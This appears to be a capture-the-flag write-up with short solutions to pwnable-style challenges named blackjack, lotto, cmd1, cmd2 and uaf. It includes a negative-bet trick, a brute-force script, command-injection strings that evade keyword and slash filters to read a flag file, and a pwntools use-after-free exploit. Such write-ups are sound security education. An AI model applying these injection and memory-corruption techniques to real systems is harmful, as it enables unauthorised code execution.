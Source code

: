 ## blackjack

Just enter some negative number as the bet, say `-999999999`; then make sure you lose. Voila! You're a millionaire ;)

## lotto

```python

a = "\x08"

for i in range(0,1000):
    print 1
    print a*6
```

Basically just keep all 6 bytes same and keep trying again and again. The probability the one of the character matches your number is pretty high. He was checking 36 things so we just need to match only 1 of the 6 characters to get match == 6.

## cmd1

```bash

cmd1@ubuntu:~$ ./cmd1 "export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games; cat \`python -c 'print \"\\x66\\x6c\\x61\\x67\"'\`"
```
## cmd2

Execute the following from `/tmp/lulz`:

```bash

$ ln -s /home/cmd2/flag lolz
$ /home/cmd2/cmd2 "cd ..; cd ..; \$(pwd)bin\$(pwd)cat \$(pwd)tmp\$(pwd)lulz\$(pwd)lolz"
```

## uaf

```python

from pwn import *

length = 24
path = "my_file"

with open(path, "w") as f:
    f.write(p64(0x401568) + "A"*0x18)

r = process(["./uaf", str(length), path])
r.recvuntil("free\n")
r.sendline("3")
r.recvuntil("free\n")
r.sendline("2")
r.recvuntil("free\n")
r.sendline("2")
r.recvuntil("free\n")
r.sendline("1")


print util.proc.pidof(r)
pause()
r.interactive()
```
